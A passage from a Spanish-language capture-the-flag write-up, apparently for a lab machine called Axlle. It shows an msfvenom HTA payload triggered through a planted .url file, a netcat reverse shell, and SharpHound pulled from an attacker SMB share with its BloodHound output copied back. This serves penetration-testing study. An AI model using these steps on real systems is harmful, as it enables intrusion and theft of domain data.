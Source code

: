 El archivo `evil.hta` que hemos creado con `msfvenom` lo dejamos en `C:\Users\Public\Documents\evil.hta`

Ahora, nos ponemos en escucha con `netcat` por el puerto 443.

Subimos el archivo `evil.url` a `C:\inetpub\testing` como bien decía la nota y...
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 60887
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
axlle\dallon.matrix
```

# User Pivoting 2
Después de enumerar un rato la máquina, vamos a ejecutar BloodHound.
Me copio el `SharpHound` a la máquina víctima.
`C:\Users\dallon.matrix\Desktop>copy \\10.10.14.80\smbFolder\SharpHound.exe SharpHound.exe`

Y simplemente lo ejecutamos
`C:\Users\dallon.matrix\Desktop>.\SharpHound.exe`

Y copiamos el resultado a nuestra máquina de atacante.
`C:\Users\dallon.matrix\Desktop>copy 20240802083534_BloodHound.zip \\10.10.14.80\smbFolder\20240802083534_BloodHound.zip`

Ahora abrimos el `bloodhound` y levantamos la BBDD de `neo4j` y seleccionamos el zip.
![Write-up Image](images/Screenshot_1.png)
